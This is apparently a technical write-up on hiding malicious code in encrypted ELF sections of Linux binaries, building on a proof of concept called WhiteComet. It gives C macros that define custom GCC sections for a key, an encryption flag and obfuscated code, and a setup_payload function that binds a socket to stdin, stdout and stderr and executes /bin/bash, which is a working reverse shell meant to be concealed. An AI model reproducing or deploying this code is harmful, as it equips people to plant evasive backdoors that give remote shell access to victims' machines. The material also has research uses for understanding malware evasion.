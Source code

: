 As a Proof of Concept, WhiteComet works pretty well. It indeed demonstrates how to use ELF sections to hide malicious code. However, the implementation is not easy to replicate because of lacks of documentation and genericity.

> 🗒 This project is based on a [whitepaper](http://papermint-designs.com/dmo-blog/2016-01-pocrypt-a-proof-of-concept-for-dynamically-decrypt-linux-binaries) which has been around since 2016.

For instance, PoC's iplementation depends on [fixed-size values](https://github.com/PoCInnovation/Whitecomet-Research/blob/master/PolyMetamorphic/Linux-ELF/include/PoCrypt.h#L44) -- which makes it hard to adapt or to scale. This is my main improvement axis for more genericity and scalability. In the following lines, I am going to expose concreteley how I processed and discuss the short-term perspectives.

## Delimiting the Code into Sections

Thanks to a GCC compiler feature, I used `attributes` to create new sections at compile time. This is really helpful because one can easily have aliases at hand for a given executable section and manipulate it *at will*. As in WhiteComet, I achieved this project using simple macros, like so:

```c
/// Encryption key's section name
#define ELF_KEY (".st_peter")

/// Code to obfuscate should be held in this section
#define ELF_CODE (".banshee")

/// Boolean telling us if the code is encrypted
#define ELF_BOOL (".isalive")

/// simple macro to define a section (GCC dependent)
#define SECTION(x) __attribute__((section(x)))

/// adding pieces of data to sections ELF_BOOL and ELF_KEY
static SECTION(ELF_BOOL) bool is_encrypted = true;
static SECTION(ELF_KEY) char key[256];
```

Then I used the labeled sections to decorate the functions I want to bind in:

```c
SECTION(ELF_CODE)
void setup_payload(settings_t *settings)
{
    char * const argv[] = {"/bin/bash", NULL};

    settings->sockfd = setup_socket(settings);
    if (settings->sockfd == -1)
        return;
    printf("[+] Starting revshell.\n");
    dup2(settings->sockfd, 0);
    dup2(settings->sockfd, 1);
    dup2(settings->sockfd, 2);
    execve("/bin/bash", argv, environ);
}
```

